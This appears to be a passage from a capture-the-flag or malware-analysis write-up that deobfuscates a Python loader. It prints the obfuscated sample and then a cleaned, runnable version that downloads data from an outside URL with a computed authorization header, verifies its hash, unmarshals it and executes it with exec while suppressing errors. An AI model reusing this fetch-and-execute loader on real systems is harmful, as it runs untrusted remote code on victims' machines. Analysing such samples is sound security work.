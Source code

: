 ```python
     rr = [2, 10, 88, 144, 12, 74, 53, 44, 51, 48, 136, 53, 243, 221, 16, 48, 170, 146, 203, 83, 101, 218, 120]

def ac(*args): 
     f('https://sfi.pl/K7ucggsTz7V81QEH', *args)

class i(): 
     def __init__(s): 
          s.x=0

z('io')
codetoexec = b'import urllib.request\nimport base64\nimport hashlib\nimport marshal\nimport types\n\np = b"MLeI3oxxoUodvwQ0"\ndd = "ab280cf138a9391afaeeadfccc3cdc0c7ceffa9c02ebc4483c03050ffd5808ee"\n\ndef f(u, c):\n    try:\n        a = 10547116428367238450560 // c\n        b = 3280413493030 // c\n        r = urllib.request.Request(u)\n        r.add_header("Authorization", "Basic " + base64.b64encode(p + b":" + str((a*b) % (c**4)).encode()).decode("utf-8"))\n        r.add_header("User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0")\n        c = urllib.request.urlopen(r).read()\n        d = hashlib.sha256(c).hexdigest()\n        if d == dd:\n            m = types.ModuleType("m")\n            exec(marshal.loads(c[16:]), m.__dict__)\n            print(exec(marshal.loads(c[16:]).__dict__, m.__dict__))\n            m.f(a, b)\n    except Exception:\n        pass\n\n'

vx(codetoexec)

ac(ab())
```

We see that under `codetoexec` there is some code that will be executed. Let's extract it to the separate file ([3.py](solution_files/3.py)):

```python
import urllib.request
import base64
import hashlib
import marshal
import types

p = b"MLeI3oxxoUodvwQ0"
dd = "ab280cf138a9391afaeeadfccc3cdc0c7ceffa9c02ebc4483c03050ffd5808ee"

# Arguments were taken from the previous code - extracted from the debugger
def f(u='https://sfi.pl/K7ucggsTz7V81QEH', c=1955):
    try:
        a = 10547116428367238450560 // c
        b = 3280413493030 // c
        r = urllib.request.Request(u)
        r.add_header("Authorization", "Basic " + base64.b64encode(p + b":" + str((a*b) % (c**4)).encode()).decode("utf-8"))
        r.add_header("User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0")
        c = urllib.request.urlopen(r).read()
        d = hashlib.sha256(c).hexdigest()
        if d == dd:
            m = types.ModuleType("m")
            code = marshal.loads(c[16:])
            exec(code, m.__dict__)
    except Exception as e:
        pass
f()
```
